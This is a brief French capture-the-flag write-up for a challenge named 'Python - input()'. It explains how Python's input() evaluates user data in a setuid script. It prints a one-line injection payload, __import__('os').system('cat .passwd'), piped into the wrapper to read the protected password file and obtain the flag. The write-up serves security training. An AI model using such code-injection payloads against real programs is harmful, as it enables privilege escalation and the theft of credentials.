 # Python - input()
## 20 Points
### Donnez à manger au python !

## Énoncé

Obtenez le mot de passe contenu dans le fichier .passwd en exploitant la vulnérabilité de ce script python.

## Solution

L'objection de ce challenge est d'utiliser l'input dans le fichier **ch6.py** dans l'objectif de lui faire faire:
```bash
cat .passwd
```

Pour cela rien de plus simple, il faut tout simplement lui envoyer du code en python en tant qu'input, mais pas de n'importe quelle façon:
```bash
echo "__import__('os').system('cat .passwd')" | ./setuid-wrapper
[censorship]
Please enter password :
```

Et voilà, nous avons le flag !